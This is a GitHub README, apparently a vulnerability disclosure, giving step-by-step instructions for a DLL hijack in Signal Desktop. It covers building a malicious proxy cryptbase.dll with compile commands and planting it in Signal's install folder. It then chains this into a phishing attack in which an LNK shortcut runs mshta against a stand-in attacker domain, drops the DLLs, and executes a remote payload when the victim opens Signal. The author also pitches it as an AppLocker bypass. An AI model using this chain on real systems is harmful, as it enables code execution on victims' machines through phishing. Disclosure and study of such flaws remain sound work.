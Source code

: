 # CVE-2023-XXXXX
## CVE Description

# Steps to Replicate
1. First, create a malicious DLL. Signal references a bunch of non-existent DLLs, so for this example, I used `cryptbase.dll`. You can use [this repository](https://github.com/tothi/dll-hijack-by-proxying) to build the DLL, but I'll simplify the steps for you:
   * Clone the repo.
   * Modify the `payload.c` file as you see fit.
   * Copy `C:\Windows\System32\cryptbase.dll` into the `dll-hijack-by-proxying` directory as `cryptbase_original.dll`.
   * Create the exports using the `gen_def.py` script in the `dll-hijack-by-proxying` directory.

    ```
    python3 gen_def.py cryptbase_orig.dll > cryptbase.def
    ```
   
   * Run the following command if you're compiling for x64 Windows:

    ```
    compilex86_64-w64-mingw32-gcc -shared -o cryptbase.dll cryptbase.c cryptbase.def -s
    ```

2. Now you've got your malicious DLL. Copy `cryptbase.dll` and `cryptbase_orig.dll` into the `%LocalAppData\Programs\signal-desktop` folder.
3. Run Signal, and the code will execute. Here's a cute calculator PoC example:
   
    ![Calculator PoC](https://raw.githubusercontent.com/johnjhacking/placeholder/main/1.png?token=GHSAT0AAAAAABZSW66OBKS446AIMVFSEHF6ZASOIUQ)

# Turning up the Heat
If you're like me, simply popping the calculator isn't enough. Let's chain this as an LNK -> HTA -> Your Payload. I mean, local vulnerabilities are totally not exploitable...right....right??? In all actuality, the argument would be that a user who clicks an emailed LNK could easily click another payload. That's not the point. Signal references non-existent DLL files, and you can chain this against as a bypass against something like AppLocker or a default deny tool, leveraging the trust of the product as a "safe" messenger. Anyway, let's get to it.

1. Create an LNK shortcut, and change the target to the following:

    ```
    C:\Windows\System32\mshta.exe https://yourdomain/poc.hta
    ```

    It should look something like this:
   
    ![LNK PoC](https://raw.githubusercontent.com/johnjhacking/placeholder/main/2.png?token=GHSAT0AAAAAABZSW66P7OWYJP4BVQXBRA5GZASOJGQ)

2. Host your `cryptbase.dll` and `cryptbase_orig.dll` files.
3. Modify the code in the `poc.hta` file within this GitHub repo to utilize the URLs of your hosted DLL files.
4. Host the HTA on your domain.
5. Run the LNK shortcut and watch as the DLL files are dropped into the `%LocalAppData\Programs\signal-desktop` folder.
6. Now, when the victim runs Signal, your malicious DLL will run. Phishing ftw.
7. You can use whatever you want, but for a quick test, I hosted an HTA server to see if my HTA would drop the DLLs that execute an HTA LOL, so in my case, the chain was LNK -> HTA drops DLLs -> User runs Signal -> DLL executes remote HTA. In a non-poc scenario, I'd swap the HTA payload out with a crypted DLL, which would be better.
   
    ![RCE Proof](https://raw.githubusercontent.com/johnjhacking/placeholder/main/3.png?token=GHSAT0AAAAAABZSW66OWR6EFTYZEPV3LOHCZASOJSQ)
